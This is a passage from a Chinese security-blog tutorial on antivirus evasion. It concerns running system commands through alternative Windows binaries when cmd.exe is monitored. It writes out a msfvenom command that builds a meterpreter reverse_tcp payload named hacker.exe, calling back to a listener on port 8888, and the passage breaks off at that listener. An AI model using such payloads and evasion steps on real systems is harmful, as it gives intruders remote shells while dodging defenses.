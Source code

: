 ##  免杀技巧-执行系统命令方式总结

原创 0xAXSDD [ Gamma实验室 ](javascript:void\(0\);)

**Gamma实验室** ![]()

微信号 HackerLearning

功能介绍
Gamma实验室是专注于网络安全攻防研究的实验室，不定时向外输出技术文章以及自主研发安全工具，技术输出不限于：渗透，内网，红队，免杀，病毒分析，逆向，ctfwp等,实验室只用于技术研究，一切违法犯罪与实验室无关！

____

__

收录于话题

“在渗透测试中，常常会遇到这种情况，上传一个shell上去，连上，却发现无法调用cmd.exe无法执行系统命令，这时候你往往想着，上传一个自己的cmd.exe上去，这是一套行云流水的操作，但把环境条件在变得苛刻一点，杀毒软件将监视二进制文件，例如cmd.exe,那么你会怎么做才能逃避检测？那么接下来就会介绍一些免杀思路。”

  

01

 背景

  

Windows系统提供了多个二进制文件，可以使用它们执行任意命令。

在这，你是不是想到了什么？既然可以执行命令，那么它将帮助hacker们逃过检测，尤其是对cmd.exe监视的环境下。

当然这需要一些前提条件：未正确配置白名单规则（这里涵盖了文件名和路径），使得一些系统可执行文件能够执行。

  

 **接下来**

 **让我们看看这些项免杀技术的闪光点！**

  

![](https://gitee.com/fuli009/images/raw/master/public/20210818090720.png)

  

02

正文

  

我们先用msfvenom生成一个木马程序：

  * 

    
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.73.136 lport=8888 -f exe -o hacker.exe

![](https://gitee.com/fuli009/images/raw/master/public/20210818090721.png)

Msf监听端口8888
